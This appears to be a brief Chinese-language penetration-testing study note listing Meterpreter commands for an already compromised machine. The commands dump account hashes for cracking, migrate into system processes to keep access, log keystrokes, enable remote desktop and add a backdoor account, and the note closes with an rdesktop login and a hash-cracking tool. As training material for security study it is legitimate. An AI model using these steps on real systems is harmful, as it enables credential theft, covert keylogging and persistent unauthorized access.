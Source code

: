 

通过meterpreter管理控制渗透成功后和目标系统的连接

```sh
#常见命令
getuid 		#查看当前用户，（攻击机权限）
sysinfo 	#查看系统信息
run hashdump	#备份系统账户哈希值，后续可爆破
ps			#查看进程
migrate xxxx	#迁移进程，（迁移到系统进程/管理员进程，即使对方关闭漏洞进程也无济于事）
keyscan_start	#抓取键盘操作
keyscan_dump	#显示键盘操作
keyscan_stop
run getui -e	#开启远程桌面
run getui -u pinginglab -p cisco #添加账号密码

```



linux远程登陆

```sh
rdesktop x.x.x.x
```



使用LC5容笑汉化版，windows下破解账户hash

可百度下载







